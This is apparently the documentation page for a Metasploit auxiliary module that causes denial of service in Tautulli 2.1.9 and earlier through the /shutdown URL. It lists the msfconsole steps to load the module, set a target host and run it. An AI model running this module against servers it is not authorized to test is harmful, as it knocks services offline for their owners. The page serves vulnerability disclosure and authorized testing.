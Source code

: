 ## Overview
Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.

## Scenario

![72550314-80cd8a00-38a3-11ea-9bad-942668a29390](https://user-images.githubusercontent.com/15425071/72602337-29bdc880-3928-11ea-8aec-ddadb3ff4f2d.png)

## Verification Steps :

List the steps needed to make sure this thing works

1. Start ```msfconsole```
2. ```use auxiliary/dos/http/tautulli_shutdown_exec```
3. ```set RHOSTS XXX.XXX.XXX.XXX```
4. ```run```
